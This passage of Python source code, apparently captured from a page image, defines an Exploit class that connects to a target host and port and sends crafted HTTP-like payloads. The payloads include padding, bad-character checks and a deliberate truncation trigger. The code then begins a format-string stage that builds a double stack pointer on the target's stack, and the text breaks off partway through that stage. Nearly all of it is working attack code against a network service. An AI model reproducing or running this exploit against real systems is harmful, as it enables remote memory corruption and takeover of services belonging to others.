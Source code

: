 ```
    args = parser.parse_args()

    return args

class Exploit():
    def __init__(self, shost, dhost, dport):
        self.prefix_padding_size = 16
        self.dhost = dhost
        self.dport = dport
        self.sock = self.connect()
        if not self.sock:
            exit(0)
        if shost:
            self.local_ip = shost
        else:
            self.local_ip = self.sock.getsockname()[0]

    def disconnect(self):
        self.sock.close()
        self.sock = None

    def connect(self):
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.settimeout(None)
            sock.connect((self.dhost, self.dport))
            return sock
        except Exception as e:
            return None

    def send_payload(self, payload):
        try:
            if not self.sock:
                self.sock = self.connect()
                if not self.sock:
                    exit(0)
            self.sock.send(payload)
            resp = self.sock.recv(4096)
        except Exception as e:
            pass
        self.disconnect()

    def prepare_payload(self, raw_payload, payload_char=0x42):
        """        Append padding to the payload and check for bad chars.        """
        assert not (self.local_ip is None)
        assert not (any(c in raw_payload for c in range(0, 0x21)))
        url  = self.local_ip.encode().ljust(self.prefix_padding_size, b"B")[len(self.local_ip):]
        url += raw_payload
        payload  = b"AAAA "  # HTTP verb
        payload += url.ljust(115, bytes([payload_char]))  # make sure we trigger the truncation
        payload += b" CCCC\r\n\r\n"  # HTTP version
        return payload

    def stage_0(self):
        """        Craft a double stack pointer from a looping one.        The looping pointer is at offset 916, we make it point to the offset 924.        The pointer at offset 924 is pointing to the offset 153.        """
        print("[+] Crafting a double stack pointer...")

        raw_payload  = b""
        raw_payload += struct.pack("<L", 0x41414141)
        raw_payload += struct.pack("<L", 0x42424242)
        raw_payload += f"%{0xe0 - (len(raw_payload) + self.prefix_padding_size)}c".encode()
```